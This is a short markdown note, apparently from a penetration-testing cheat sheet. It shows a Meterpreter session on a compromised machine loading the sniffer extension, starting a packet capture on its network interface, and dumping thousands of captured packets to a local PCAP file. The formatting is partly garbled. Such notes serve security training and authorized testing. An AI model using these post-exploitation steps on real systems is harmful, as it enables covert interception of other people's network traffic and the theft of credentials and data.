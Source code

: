 # Sniffer

## Sniff traffic

`meterpreter > use sniffer`

\`\`\``Loading extension sniffer...Success.`\
`meterpreter >`\
`meterpreter > sniffer_interfaces`

`1 - 'VMware Accelerated AMD PCNet Adapter' ( type:0 mtu:1514 usable:true dhcp:false wifi:false )`

`meterpreter > sniffer_start 1`\
`[`_`] Capture started on interface 1 (50000 packet buffer)`_\
_`meterpreter > ping 10.11.1.7`_\
_`[-] Unknown command: ping.`_\
_`meterpreter > sniffer_sta`_\
_`sniffer_start sniffer_stats`_\
_`meterpreter > sniffer_sta sniffer_start sniffer_stats`_\
_`meterpreter > sniffer_sta sniffer_start sniffer_stats`_\
_`meterpreter > sniffer_stats 1 [`_`] Capture statistics for interface 1 packets: 8359 bytes: 909444 meterpreter > sniffer_dump 1 /tmp/all.cap [`_`] Flushing packet capture buffer for interface 1... [`_`] Flushed 8621 packets (1154664 bytes) [`_`] Downloaded 045% (524288/1154664)... [`_`] Downloaded 090% (1048576/1154664)... [`_`] Downloaded 100% (1154664/1154664)... [`_`] Download completed, converting to PCAP... [*] PCAP file written to /tmp/all.cap`\`\`\`
